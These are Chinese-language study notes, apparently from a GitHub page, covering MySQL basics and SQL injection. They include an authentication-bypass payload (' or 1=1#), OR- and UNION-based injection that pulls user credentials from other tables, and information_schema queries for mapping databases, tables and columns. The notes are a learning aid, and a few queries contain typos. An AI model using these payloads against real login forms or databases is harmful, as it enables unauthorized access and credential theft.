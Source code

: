 select use();
select database();
select now();


大写 按tab可以补全

show create table users\G


字符串的查询需要加引号
select user,password from mysql.user where user = 'root';
若不加引号，代表查询的字段

数字是不可以作为字段的

#### 基于错误注入
比如：在用户名输入框中输入:’ or 1=1#,密码随便输入，这时候的合成后的SQL查询语句为：
select * from users where username='' or 1=1#' and password=md5('')
　　语义分析：“#”在mysql中是注释符，这样井号后面的内容将被mysql视为注释内容，这样就不会去执行了，换句话说，以下的两句sql语句等价：
select * from users where username='' or 1=1#' and password=md5('')
等价于
select * from users where username='' or 1=1



#### 基于or的注入 获取一个表
select user,password from mysql.user where user = 'root' or 1=1；
where后的条件为真


#### 基于union的注入 获取多个表
union前后字段数量一致

如果对union前的不关注则利用假的条件
例如：
select * from dvwa.users where 1=2 union select user_login,user_pwd,1,2 from wordpress.wp_users;
字段字段不一致，则可以不停的增减字段数尝试
如关注前面的数据则不使用where的假条件


#### information_schema (数据库字典)
查看数据库中所有的表
select * from information_schema.tables\G

查看去重后的所有数据库
select DISTINCT TABLE_SCHEMA from information_schema.tables;
等同于 showdatabases;

select TABLE_SCHEMA，TABLE_NAME from information_schema.tables WHERE TABLE_SCHEMA='HH';

select TABLE_SCHEMA，GROUP_CONCAT(TABLE_NAME) from information_schema.tables GROUP BY TABLE_SCHEMA;

通过前面获取的库与表获取表中的所有列
select COLOUMN_NAME from information_schema.columns WHERE TABLE_SCHEMA='database' and TABLE_NAME='table';


#### 参考文章
- [利用SQL注入漏洞登录后台](https://www.cnblogs.com/sdya/p/4568548.html)
